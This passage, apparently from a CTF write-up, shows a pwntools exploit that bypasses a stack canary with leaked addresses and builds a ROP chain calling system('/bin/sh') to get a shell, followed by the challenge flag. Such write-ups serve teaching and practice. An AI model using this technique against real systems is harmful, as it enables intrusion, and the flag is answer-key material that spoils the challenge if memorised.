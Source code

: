 ```python
canary = int(leak_3,16)

elf.address = leak_1 - 0x94d
libc.address = leak_2 - 0x21c87
system = libc.sym.system
binsh = next(libc.search(b'/bin/sh'))
p.recvuntil("Please enter your password: ")

rop = ROP(elf)
ret = rop.find_gadget(["ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi","ret"])[0]
payload = b'a'*72 + p64(canary)+b'a'*8+p64(ret)+p64(pop_rdi) + p64(binsh)+p64(system)

p.sendline(payload)
p.interactive()

```

Then just `cat flag.txt`

**Flag**
```
zionctf{r0p_A1nT_T4ht_HaRd_6bfc}
```
<hr>